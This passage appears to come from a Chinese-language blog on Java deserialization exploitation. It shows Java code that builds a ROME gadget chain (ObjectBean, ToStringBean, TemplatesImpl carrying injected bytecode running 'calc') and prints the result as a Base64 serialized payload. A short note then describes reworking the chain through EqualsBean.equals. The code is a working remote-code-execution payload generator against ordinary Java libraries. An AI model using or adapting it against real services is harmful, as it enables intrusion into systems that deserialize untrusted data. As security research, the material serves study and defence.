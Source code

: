 ```java
        return baos.toByteArray();
    }
    private static byte[] Base64Encode(byte[] bytes){
        return Base64.getEncoder().encode(bytes);
    }
    public static void main(String[] args) throws Exception{
        String cmd="calc";
        byte[] code=getTemplatesImplEvilCode(cmd);
        TemplatesImpl templates=new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{code});
        setFieldValue(templates, "_name", "z");
        setFieldValue(templates, "_tfactory", null);
        ToStringBean toStringBean=new ToStringBean(Templates.class,templates);
        ObjectBean objectBean=new ObjectBean(ToStringBean.class,toStringBean);
        HashMap hashMap=new HashMap();
        hashMap.put(objectBean,"z");
        setFieldValue(objectBean, "_cloneableBean", null);
        setFieldValue(objectBean, "_toStringBean", null);
        byte[] bytes=serialize(hashMap);
        byte[] base64_byte=Base64Encode(bytes);
        System.out.println(new String(base64_byte));
        System.out.println(new String(base64_byte).length());
    }
}

```

##  改进3

这个就是在上面的基础上，改变了反序列化链子

上面的链子是通过`toString`来`pReadMethod.invoke`的

我们在CC5中利用`BadAttributeValueExpException`的`toString`方法，但是这个链子最后写下来很长

在`EqualsBean`看到可以利用`equals`来``pReadMethod.invoke``
